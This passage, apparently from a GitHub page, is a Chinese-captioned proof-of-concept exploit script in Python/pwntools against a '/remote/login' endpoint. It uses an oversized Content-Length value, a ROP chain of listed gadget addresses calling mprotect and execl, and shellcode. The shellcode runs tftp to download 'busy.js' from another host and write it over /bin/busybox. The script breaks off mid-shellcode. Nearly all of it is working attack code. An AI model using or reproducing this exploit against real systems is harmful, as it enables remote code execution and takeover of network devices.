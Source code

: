   
上传busy.js文件 POC  
  
```
import socket
import ssl
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *
context.arch = 'amd64'


path = "/remote/login".encode()
content_length = ["115964116992"]
ip = "192.168.111.148"
#1376
#0x000000000257008a push rdx,pop rdi.ret
#0x0000000000530c8e : pop rsi ; ret
#0x000000000046bb27 : pop rax ; ret
#0x000000000060e7e9 : pop rax ; pop rsi ; ret 绕过最开始那个1无法写入的限制
#0x000000000043F3D0 call mprotect 
#0x0000000000509372 : pop rdx ; ret
#0x0000000002a0e0e0 : add rdx, rax ; mov eax, edx ; sub eax, edi ; ret
#0x00000000005dc96d jmp rsp
#0x43A160 execl
def bytes2stack_bytes(bytes):
    stack_str = "0x"
    swap_data = bytearray(bytes)
    swap_data.reverse()
    for i in swap_data:
        t = hex(i)[2:]
        stack_str+=t

    return stack_str
shellcode1 = asm('''
    lea rax, [rip + 0x69]
    jmp rax
    nop
    nop
    nop
    nop
    nop
    nop
    nop

''')
print(len(shellcode1))
def gen_shellcode_download_file():
    save_path2 = bytes2stack_bytes(b"/cin/bus")
    save_path1 = bytes2stack_bytes(b'ybox')
    arg2 = bytes2stack_bytes(b"octet")
    arg1 = bytes2stack_bytes(b"get")
    filename = bytes2stack_bytes(b"busy.js")

    ip_addr2 = bytes2stack_bytes(b"111.160")
    ip_addr1 = bytes2stack_bytes(b"192.168.")

    cmd_path2 = bytes2stack_bytes(b"p")
    cmd_path1 = bytes2stack_bytes(b"/bin/tft")
    shellcode = asm('''
      sub rsp,0x1000
```